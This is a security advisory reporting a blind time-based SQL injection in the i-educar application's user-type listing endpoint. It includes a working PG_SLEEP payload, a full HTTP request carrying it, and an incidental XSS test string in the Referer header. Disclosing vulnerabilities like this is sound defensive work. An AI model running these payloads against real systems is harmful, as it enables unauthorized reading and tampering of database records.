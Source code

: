 # SQL Injection (Blind Time-Based) Vulnerability in `descrição` Parameter on `educar_tipo_usuario_lst.php` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `educar_tipo_usuario_lst.php` endpoint of the _i-educar_ application, specifically in the `descrição` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/educar_tipo_usuario_lst.php`  
**Parameter:** `descrição`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Configurations > Permissions > User Types**.

![[Pasted image 20250809185459.png]]

Additionally, exploiting this vulnerability requires an account with permissions to **create/list users and user types**.

The application fails to properly validate and sanitize user input in the `descrição` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ`

**Decoded Payload:**

`' AND 8767=(SELECT 8767 FROM PG_SLEEP(10)) OR 'EgwO'='pMdZ`

This payload triggers a **10-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=1&descricao=1'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ&nivel=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&descricao=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&nivel=-1
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=hRnVO9PXmAH7dVAd7DsTeTgExwM6ccdtZZaCcpob
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

![[Pasted image 20250809185407.png]]

Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)